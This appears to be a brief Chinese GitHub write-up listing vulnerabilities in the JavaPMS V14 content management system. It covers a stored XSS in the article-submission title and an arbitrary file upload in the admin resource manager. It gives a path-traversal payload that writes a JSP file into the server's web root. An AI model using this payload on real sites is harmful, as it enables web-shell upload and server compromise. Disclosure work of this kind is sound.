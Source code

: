 # javapmsV14漏洞集合
`@Time   : 2020/7/28 16:07`
`@Author : 852782749@qq.com`


```
开始编辑～
```
### 前台文章投稿存储型xss
```angular2html
投稿文章标题存在漏洞，
☑️外部链接 可以完成外部链接跳转，如：CSRF漏洞
```


### 后台->系统管理->资源管理任意文件上传
```angular2html
payload:
filename=../../../../../ROOT/123.jsp&source=&path=%2Fimg
```





> 乾坤未定，你我皆是黑马